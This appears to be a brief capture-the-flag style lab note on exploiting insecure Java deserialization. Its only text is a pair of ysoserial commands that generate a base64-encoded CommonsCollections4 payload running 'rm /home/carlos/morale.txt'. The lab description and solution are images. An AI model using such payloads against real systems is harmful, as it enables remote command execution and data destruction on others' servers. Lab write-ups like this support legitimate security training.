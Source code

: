 ## Lab Description :


![image](https://github.com/user-attachments/assets/d4093a43-5f7c-4e57-be5b-d9e7a66d5671)

## Notes :

While using yoserial ,

- If Java version is 16 and above:

```java
java -jar ysoserial-all.jar \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
   --add-opens=java.base/java.net=ALL-UNNAMED \
   --add-opens=java.base/java.util=ALL-UNNAMED \
   CommonsCollections4 'rm /home/carlos/morale.txt' | base64
```
- If Java version is 15 and below:

```java
java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
```

## Solution :

![image](https://github.com/user-attachments/assets/87d7cf4c-aeae-4efe-9a8d-9b2ce55f0ec9)

